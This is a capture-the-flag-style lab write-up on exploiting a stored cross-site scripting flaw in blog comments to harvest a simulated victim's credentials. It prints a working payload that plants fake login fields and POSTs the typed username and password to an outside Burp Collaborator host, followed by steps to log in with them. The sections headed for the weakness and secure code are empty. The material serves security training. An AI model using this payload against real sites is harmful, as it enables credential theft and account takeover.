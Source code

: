 ## Exploiting cross-sute scripting to capture passwords

### Objective:
- This lab contains a **Stored XSS** vulnerability in the blog comments function. 
- A simulated victim user views all comments after they are posted. 
- To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

### Security Weakness:

### Exploitation Methodology:
1. Open Burp Suite Professional and navigate to the Collaborator tab.
2. Copy the unique Burp Collaborator payload to your clipboard by clicking "Copy to Clipboard."
3. Craft the following payload and insert your Burp Collaborator subdomain in the designated location:
```html
<input name="username" id="username">
<input type="password" name="password" onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
	   method: 'POST',
	   mode: 'no-cors',
	   body: username.value + ':' + this.value
});">
```
4. Understanding **`mode: 'no-cors'`**
	1. By default, when making a cross-origin request (a request to a different domain), the browser enforces the Same-Origin Policy, which restricts the request due to security reasons.
	2. the purpose of using **`mode: 'no-cors'`** is to ensure that the request is sent without being blocked by the Same-Origin Policy. The code is primarily focused on triggering the request and capturing the victim's credentials, rather than processing the response.
5. When a user views the comment, the script will trigger a POST request containing the victim's username and password to your Burp Collaborator subdomain.
6. Return to the Collaborator tab in Burp Suite and click "Poll now." You should observe an HTTP interaction. If no interactions are displayed, wait a few seconds and try again.
7. Take note of the victim's username and password in the POST body.
8. Utilize the obtained credentials to log in as the victim user.

### Insecure Code:

### Secure Code:
